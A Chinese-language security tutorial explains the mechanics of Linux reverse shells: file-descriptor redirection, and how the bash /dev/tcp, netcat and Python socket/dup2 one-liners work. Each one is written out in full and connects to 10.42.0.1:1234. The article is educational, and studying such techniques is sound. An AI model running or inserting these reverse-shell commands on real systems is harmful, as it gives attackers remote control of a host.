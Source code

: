 > 原文链接: https://www.anquanke.com//post/id/85712 


# 【技术分享】Linux渗透之反弹Shell命令解析


                                阅读量   
                                **360165**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



****

[![](https://p5.ssl.qhimg.com/t01017ce70b818b72c6.jpg)](https://p5.ssl.qhimg.com/t01017ce70b818b72c6.jpg)

作者：[派大星](http://bobao.360.cn/member/contribute?uid=1009682630)

稿费：200RMB（不服你也来投稿啊！）

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**前言**

当我们在渗透Linux主机时，反弹一个交互的shell是非常有必要的。在搜索引擎上搜索关键字“Linux 反弹shell”，会出现一大堆相关文章，但是其内容不但雷同，而且都仅仅是告诉我们执行这个命令就可以反弹shell了，却没有一篇文章介绍这些命令究竟是如何实现反弹shell的。既然大牛们懒得科普，那我就只好自己动手了。本文就来探讨一下相关命令实现的原理。

<br>

**Bash**

这篇文章的起因就是网上给的Bash反弹shell的实现：

```
bash -i &gt;&amp; /dev/tcp/10.0.0.1/8080 0&gt;&amp;1
```

看到这短短的一行代码，正在复习Linux，自我感觉良好的我顿时充满了挫败感，这都是些什么鬼。于是决定一定要搞明白它。

首先，bash -i是打开一个交互的bash，这个最简单。我们先跳过“&gt;&amp;”和“0&gt;&amp;1”，这两个是本文重点，等会再说。先来说“/dev/tcp/”。

 /dev/tcp/是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。

要想了解“&gt;&amp;”和“0&gt;&amp;1”，首先我们要先了解一下Linux文件描述符和重定向。

linux shell下常用的文件描述符是：

1.  标准输入   (stdin) ：代码为 0 ，使用 &lt; 或 &lt;&lt; ； 

2.  标准输出   (stdout)：代码为 1 ，使用 &gt; 或 &gt;&gt; ； 

3.  标准错误输出(stderr)：代码为 2 ，使用 2&gt; 或 2&gt;&gt;。

很多资料都会告诉我们，2&gt;&amp;1是将标准错误输出合并到标准输出中，但是这四个符号具体要如何理解呢？我刚开始直接将2&gt;看做标准错误输出，将&amp;看做and，将1看做标准输出。这样理解好像也挺对，但是如果是这样的话0&gt;&amp;1又该如何理解呢？

其实&amp;根本就不是and的意思，学过C/C++的都知道，在这两门语言里，&amp;是取地址符。在这里，我们也可以将它理解为取地址符。

好了，基本知识说完了，下面我们就探讨一下困扰了我一天的“&gt;&amp;”究竟是什么意思。首先，我在查资料的过程中虽然没有查到“&gt;&amp;”究竟是什么，但是有一个跟它长得很像的符号却被我发现了，那就是“&amp;&gt;”，它和“2&gt;&amp;1”是一个意思，都是将标准错误输出合并到标准输出中。难道“&gt;&amp;”和“&amp;&gt;”之间有什么不为人知的交易？让我们来动手测试一下。

[![](https://p5.ssl.qhimg.com/t01d09ef5a4c93903c5.png)](https://p5.ssl.qhimg.com/t01d09ef5a4c93903c5.png)

从图片中我们可以看到，在这里"&gt;&amp;"和“&amp;&gt;”作用是一样的，都是将标准错误输出定向到标准输出中。

既然如此，那么我们就把他俩互换试试看，究竟结果一不一样。

我在虚拟机里执行

```
bash -i &gt;&amp; /dev/tcp/10.0.42.1/1234
```

结果如下图所示，虽然命令和结果都在我本机上显示出来了，但实际上命令并不是在本机上输入的，而是只能在虚拟机里面输入，然后命令和结果都在我本机上显示。

[![](https://p0.ssl.qhimg.com/t0195bf356bb24445bc.png)](https://p0.ssl.qhimg.com/t0195bf356bb24445bc.png)

[![](https://p0.ssl.qhimg.com/t0197680e023bb7a93a.png)](https://p0.ssl.qhimg.com/t0197680e023bb7a93a.png)

我们再执行

```
bash -i &amp;&gt; /dev/tcp/10.42.0.1/1234
```

效果是一样的，就不上图了。所以由实践可知，“&gt;&amp;”和我们常见的“&amp;&gt;”是一个意思，都是将标准错误输出重定向到标注输出。

好了，一个问题已经解决，下一个就是“0&gt;&amp;1”。我们都知道，标准输入应该是“0&lt;”而不是“0&gt;”，难道这个跟上一个问题样都是同一个命令的不同写法？让我们试一下“0&lt;&amp;1”，看看会发生什么。

[![](https://p5.ssl.qhimg.com/t0123d89cb804d2a924.png)](https://p5.ssl.qhimg.com/t0123d89cb804d2a924.png)

[![](https://p1.ssl.qhimg.com/t01244d1b4b79c996ec.png)](https://p1.ssl.qhimg.com/t01244d1b4b79c996ec.png)

在上图中我们得到了一个交互的shell。果然是这样！“0&gt;&amp;1”和“0&lt;&amp;1”是一个意思，都是将标准输入重定向到标准输出中。使用

```
bash -i &amp;&gt; /dev/tcp/10.42.0.1 0&lt;&amp;1
```

同样能反弹一个可交互的shell。

综上所述，这句命令的意思就是，创建一个可交互的bash和一个到10.42.0.1:1234的TCP链接，然后将bash的输入输出错误都重定向到在10.42.0.1:1234监听的进程。

<br>

**NetCat**

如果目标主机支持“-e”选项的话，我们就可以直接用

```
nc -e /bin/bash 10.42.0.1 1234
```

但当不支持时，我们就要用到Linux神奇的管道了。我们可以在自己机器上监听两个端口，

```
nc -l -p 1234 -vv
nc -l -p 4321 -vv
```

然后在目标主机上执行以下命令：

```
nc  10.42.0.1 1234  |  /bin/bash  |  nc 10.42.0.1 4321
```

这时我们就可以在1234端口输入命令，在4321端口查看命令的输出了。

管道“|”可以将上一个命令的输出作为下一个命令的输入。所以上面命令的意思就是将10.42.0.1:1234传过来的命令交给/bin/bash执行，再将执行结果传给10.42.0.1:4321显示。

<br>

**Python**

```
python -c 
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.42.0.1",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);'
```

python -c表示执行后面的代码。首先引入了三个库socket,subprocess,os，这三个库后面都要用到，然后创建了一个使用TCP的socket，接着执行connect函数连接到黑客主机所监听的端口。接着执行os库的dup2函数来进行重定向。dup2传入两个文件描述符，fd1和fd2（fd1是必须存在的），如果fd2存在，就关闭fd2，然后将fd1代表的那个文件强行复制给fd2，fd2这个文件描述符不会发生变化，但是fd2指向的文件就变成了fd1指向的文件。 这个函数最大的作用是重定向。三个dup2函数先后将socket重定向到标准输入，标准输入，标准错误输出。最后建立了一个子进程,传入参数“-i”使bash以交互模式启动。这个时候我们的输入输出都会被重定向到socket，黑客就可以执行命令了。

[![](https://p2.ssl.qhimg.com/t0158e660feffec976e.png)](https://p2.ssl.qhimg.com/t0158e660feffec976e.png)

[![](https://p5.ssl.qhimg.com/t012e645a86f77299e7.png)](https://p5.ssl.qhimg.com/t012e645a86f77299e7.png)

我们可以看到成功的弹回了一个shell。<br>

<br>

**总结**

在对信息安全的学习中，我们要时刻保持好奇心，多问为什么，要多去探究根本原理，而不是只会使用工具和死记硬背，遇到不会又搜不到答案的问题，我们要大胆猜想，小心求证，只有这样我们才能不断的进步，在信息安全的领域越走越远。
